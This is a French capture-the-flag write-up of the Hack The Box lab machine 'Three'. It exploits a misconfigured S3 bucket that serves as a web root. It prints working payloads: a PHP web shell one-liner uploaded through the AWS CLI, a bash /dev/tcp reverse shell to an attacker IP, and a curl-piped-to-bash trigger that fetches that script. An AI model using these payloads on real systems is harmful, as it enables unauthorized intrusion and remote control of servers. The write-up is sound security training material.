






# Introduction

Bienvenue sur **Three**, une machine du **Tier 1** de **Starting Point** qui nous plonge dans le monde du cloud computing. On s'attaque à un **S3 bucket AWS** mal configuré. Cette machine illustre parfaitement comment une mauvaise configuration cloud peut transformer un simple espace de stockage en porte d'entrée.

Au menu : énumération de sous-domaines, AWS CLI, upload de web shell PHP, reverse shell bash.

:::warning
Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant.
:::

:::caution
N'attaquez que des machines sur lesquelles vous avez l'autorisation. Respectez les règles de la plateforme.
:::

[▶ RavenBreach sur YouTube](https://www.youtube.com/@Raven_Breach/videos)

---

## Reconnaissance

### Découverte d'hôte

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ ping 10.129.27.82

64 bytes from 10.129.27.82: icmp_seq=1 ttl=63 time=8.04 ms
```

TTL de 63 → machine **Linux**.

### Énumération des services

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ sudo nmap -sV 10.129.27.82

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

### Exploration de l'application web



En inspectant le formulaire de contact, on trouve l'adresse `mail@thetoppers.htb` — nom de domaine potentiel.



On ajoute l'entrée dans `/etc/hosts` :

```bash
echo "10.129.27.82 thetoppers.htb" | sudo tee -a /etc/hosts
```

### Énumération de sous-domaines

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain

Found: s3.thetoppers.htb Status: 404
```

:::tip
Le mode **VHOST** envoie des requêtes HTTP en modifiant l'en-tête `Host:` — il détecte les virtual hosts configurés localement, même sans DNS public. Préférable au mode DNS sur HTB.
:::

Le sous-domaine **s3** est très intéressant car il évoque le service de stockage **AWS S3**.

```bash
echo "10.129.27.82 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

En navigant sur `s3.thetoppers.htb` :



`{"status": "running"}` — c'est bien un S3 bucket.

---

## Pré-Exploitation

### Installation et configuration d'AWS CLI

```bash
sudo apt install awscli
aws configure
# AWS Access Key ID: temp
# AWS Secret Access Key: temp
# Default region name: temp
```

:::tip
Le serveur S3 mal configuré n'authentifie pas correctement les requêtes — des valeurs arbitraires suffisent.
:::

### Énumération des buckets

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ aws --endpoint=http://s3.thetoppers.htb s3 ls

2026-01-09 08:58:28 thetoppers.htb

┌─[ravenbreach@htb]─[~]
└──╼ $ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

PRE images/
    .htaccess
    index.php
```

Le bucket contient la racine de l'application web ! Apache utilise ce S3 comme système de stockage.

---

## Exploitation

### Upload d'un web shell PHP

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

### Vérification RCE

```
http://thetoppers.htb/shell.php?cmd=id
```



On a une **Remote Code Execution** !

### Préparation du reverse shell

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.86/1337 0>&1
```

On sauvegarde dans `reverse_shell.sh`, puis on lance un listener netcat et un serveur HTTP Python :

```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### Déclenchement

```
http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.86:8000/reverse_shell.sh|bash
```





---

## Post-Exploitation

### Récupération du flag

```bash
www-data@three:/var/www/html$ cd ../
www-data@three:/var/www$ cat flag.txt

a98{...}c2b
```

La machine est **pwned** !

---

## Conclusion

Chaîne d'attaque :
1. Énumération de sous-domaines → découverte de `s3.thetoppers.htb`
2. AWS CLI → listing et upload sur le bucket
3. Web shell PHP → Remote Code Execution
4. Reverse shell bash via netcat
